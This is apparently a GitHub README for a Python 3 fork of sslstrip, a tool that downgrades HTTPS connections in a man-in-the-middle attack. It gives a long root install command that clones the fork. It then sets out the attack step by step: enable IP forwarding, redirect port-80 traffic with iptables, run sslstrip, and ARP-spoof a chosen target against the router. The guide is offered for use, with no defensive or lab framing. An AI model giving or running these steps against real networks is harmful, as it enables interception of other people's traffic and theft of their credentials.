 ## This is a fork of sslstrip to works with python3

### Installing


----------

Edit APT Repo
----------
```ShellSession
nano /etc/apt/sources.list
```
# Add this repo
```ShellSession
deb http://ftp.debian.org/debian/ stretch main contrib non-free
```
#
# Install as root:
```ShellSession
apt update -y && sudo apt install aptitude -y && aptitude install python-pip python3-pip python-pip-whl python-all-dev python-wheel -y && pip install pysqlcipher3 && pip install psycopg2-binary && apt update -y && apt install git -y && cd /usr/share && git clone https://github.com/4k4xs4pH1r3/sslstrip.git && sudo aptitude install python-twisted-web python3 python3-pip git -y && cd sslstrip && python setup.py install && python3 -m pip install -r requirements.txt && pip install twisted carbon autobahn autobahn && sudo aptitude install python2.7-twisted-bin python-twisted-words python-twisted-runner python3-twisted-bin-dbg python-twisted-runner-dbg python-twisted python3-twisted python-twisted-names python-twisted-mail python-twisted-bin-dbg python-twisted-bin python-twisted-web python-twisted-conch python-twisted-news python-twisted-core python-twisted-libravatar twisted-doc python3-pytest-twisted python2.7-twisted-core python3-twisted-bin python2.7-twisted python-scrapy python3-scrapy -y && pip install --upgrade --ignore-installed pyopenssl && pip3 install --upgrade --ignore-installed pyopenssl && python3 sslstrip.py -h
``` 





# Running:
	sslstrip can be run from the source base without installation.  
	Just run 'python sslstrip.py -h' as a non-root user to get the
	command-line options.

	The four steps to getting this working (assuming you're running Linux)
	are:

	1) Flip your machine into forwarding mode (as root):
	   echo "1" > /proc/sys/net/ipv4/ip_forward

	2) Setup iptables to intercept HTTP requests (as root):
	   iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>

	3) Run sslstrip with the command-line options you'd like (see above).

	4) Run arpspoof to redirect traffic to your machine (as root):
	   arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>

# More Info:
	http://www.thoughtcrime.org/software/sslstrip/
